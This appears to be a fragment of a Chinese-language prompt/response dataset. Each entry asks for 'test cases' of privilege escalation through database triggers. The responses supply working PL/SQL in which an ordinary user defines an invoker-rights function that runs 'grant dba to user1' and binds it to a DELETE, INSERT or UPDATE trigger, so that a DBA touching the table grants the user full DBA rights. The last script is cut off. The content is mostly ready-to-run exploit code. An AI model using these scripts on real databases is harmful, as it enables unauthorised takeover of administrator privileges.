--创建触发器，调用存储过程
CREATE OR REPLACE TRIGGER DELETE_GRANT_ANY_PROCEDURE
AFTER DELETE ON USER1.T6
FOR EACH ROW
BEGIN
 --调用存储过程
 CALL GRANT_ANY_PROCEDURE();
END;

--DBA用户
--删除数据，触发触发器进行授权
DELETE FROM USER1.T6 WHERE ID = 1;

--USER1用户
--查看权限
SELECT * FROM USER_SYS_PRIVS;"
生成一组测试用例，能够反应触发器通过调用函数实现间接提权功能,user1用户是普通用户，创建函数执行授权DBA，创建插入型触发器，执行该函数，使用DBA用户插入user1用户的表中，触发触发器调用函数进行提权,"‘--user1用户
--创建表
CREATE TABLE T1(ID VARCHAR(50));
--插入数据
INSERT INTO T1 VALUES('user1');
--创建提权函数
CREATE OR REPLACE FUNCTION grant_dba_to_user1
RETURN VARCHAR2
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'grant dba to user1';
    COMMIT;
    RETURN 'Granted';
END;
--创建触发器，调用函数
CREATE OR REPLACE TRIGGER insert_get_dba
    AFTER INSERT ON user1.t1
    FOR EACH ROW
BEGIN
 --调用函数
 call grant_dba_to_user1();
END;

--DBA用户
--插入数据，触发触发器进行授权
INSERT INTO user1.T1 VALUES('sysdba');

--user1用户
--查看权限
SELECT * FROM user_role_privs;"
生成一组测试用例，能够反应触发器通过调用函数实现间接提权功能,user1用户是普通用户，创建函数执行授权DBA，创建更新型触发器，执行该函数。使用DBA用户更新user1用户的表，触发触发器调用函数进行提权,"--user1用户
--创建表
CREATE TABLE T2(ID int, name varchar(20));
--插入数据
INSERT INTO T2 VALUES(1, 'user1');
--创建提权函数
CREATE OR REPLACE FUNCTION grant_dba_to_user1
RETURN VARCHAR2
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'grant dba to user1';
    COMMIT;
    RETURN 'Granted';